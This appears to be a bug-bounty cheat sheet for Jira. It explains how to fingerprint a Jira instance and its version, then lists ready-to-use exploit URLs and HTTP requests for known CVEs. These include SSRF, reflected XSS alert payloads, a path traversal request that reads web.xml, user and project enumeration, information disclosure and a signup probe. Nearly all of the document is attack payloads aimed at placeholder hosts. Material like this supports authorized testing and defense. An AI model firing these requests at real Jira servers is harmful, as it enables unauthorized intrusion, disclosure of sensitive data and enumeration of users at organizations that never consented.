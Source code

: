 # Jira Common Bugs

## Introduction
What would you do if you came across a website that uses Jira?

## How to Detect
```
https://example.com/secure/Dashboard.jspa
https://example.com/login.jsp
```

1. Find the related CVE by checking jira version
* How to find the jira version

Try to request to `https://example.com/secure/Dashboard.jspa` and then check the source code. You will find this line `<meta name="ajs-version-number" content="8.20.9">` so 8.20.9 is the jira version. If you found outdated jira version, find the CVEs at [CVEDetails](https://www.cvedetails.com/vulnerability-list/vendor_id-3578/product_id-8170/Atlassian-Jira.html)

Some example CVE:

- CVE-2017-9506 (SSRF)
```
https://example.com/plugins/servlet/oauth/users/icon-uri?consumerUri=<SSRF_PAYLOAD>
```
- CVE-2018-20824 (XSS)
```
https://example.com/plugins/servlet/Wallboard/?dashboardId=10000&dashboardId=10000&cyclePeriod=alert(document.domain)
```
- CVE-2019-8451 (SSRF)
```
https://example.com/plugins/servlet/gadgets/makeRequest?url=https://<HOST_NAME>:1337@example.com
```
- CVE-2019-8449 (User Information Disclosure)
```
https://example.com/rest/api/latest/groupuserpicker?query=1&maxResults=50000&showAvatar=true
```
- CVE-2019-8442 (Sensitive Information Disclosure)
```
https://example.com/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
```
- CVE-2019-3403 (User Enumeration)
```
https://example.com/rest/api/2/user/picker?query=<USERNAME_HERE>
```
- CVE-2020-14181 (User Enumeration)
```
https://example.com/secure/ViewUserHover.jspa?username=<USERNAME>
```
- CVE-2020-14178 (Project Key Enumeration)
```
https://example.com/browse.<PROJECT_KEY>
```
- CVE-2020-14179 (Information Disclosure)
```
https://example.com/secure/QueryComponent!Default.jspa
```
- CVE-2019-11581 (Template Injection)
```
example.com/secure/ContactAdministrators!default.jspa

* Try the SSTI Payloads
```

- CVE-2019-3396 (Path Traversal)
```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: {{Hostname}}
Accept: */*
Accept-Language: en-US,en;q=0.5 User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Referer: {{Hostname}}
Content-Length: 168
Connection: close

{"contentId":"786457","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc5","width":"1000","height":"1000","_template":"../web.xml"}}}

*Try above request with the Jira target
```
- CVE-2019-3402 (XSS)
```
https://example.com/secure/ConfigurePortalPages!default.jspa?view=search&searchOwnerUserName=%3Cscript%3Ealert(1)%3C/script%3E&Search=Search
```

2. Signup enabled
```
POST /servicedesk/customer/user/signup HTTP/1.1
Host: example.com
Content-Type: application/json

{"email":"test@gmail.com","signUpContext":{},"secondaryEmail":"","usingNewUi":true}
```

## Reference
* [@harshbothra](https://twitter.com/harshbothra)